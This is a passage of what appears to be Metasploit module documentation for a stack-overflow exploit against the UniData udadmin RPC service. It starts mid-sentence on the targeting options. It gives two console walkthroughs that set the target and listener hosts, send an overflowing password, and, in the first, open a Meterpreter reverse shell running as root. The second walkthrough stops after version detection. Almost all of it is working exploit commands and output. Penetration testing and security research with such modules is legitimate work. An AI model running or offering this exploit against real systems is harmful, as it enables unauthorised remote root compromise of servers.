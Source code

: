 Currently, the only options are `8.2.4` and `auto`

## Scenarios

### Version 8.2.4 with auto-detection + unix command payload

```
msf > use exploit/linux/misc/unidata_udadmin_password_stack_overflow
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set LHOST ens160
LHOST => ens160

msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set VERBOSE true
VERBOSE => true

msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.0.198:31438 - Trying to get version number from service defcs...
[*] 10.0.0.198:31438 - Detected UniRPC version 8.2.4 is running
[!] 10.0.0.198:31438 - The service is running, but could not be validated.
[*] 10.0.0.198:31438 - Using the version number from earlier for targeting: 8.2.4
[*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
[*] 10.0.0.198:31438 - Authenticating to RPC service as qvvJpicOdkHUbWXb with a stack-overflowing password
[*] 10.0.0.198:31438 - Payload sent
[*] Sending stage (24772 bytes) to 10.0.0.198
[*] Meterpreter session 1 opened (10.0.0.227:4444 -> 10.0.0.198:54566) at 2023-04-11 09:44:21 -0700

meterpreter > getuid
Server username: root
```

### Version 8.2.4 with specific targeting + unix command payload

```
msf > use exploit/linux/misc/unidata_udadmin_password_stack_overflow
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set LHOST ens160
LHOST => ens160

msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set VERBOSE true
VERBOSE => true

msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set UNIDATA_VERSION 8.2.4
UNIDATA_VERSION => 8.2.4
msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.0.198:31438 - Trying to get version number from service defcs...
[*] 10.0.0.198:31438 - Detected UniRPC version 8.2.4 is running
[!] 10.0.0.198:31438 - The service is running, but could not be validated.
```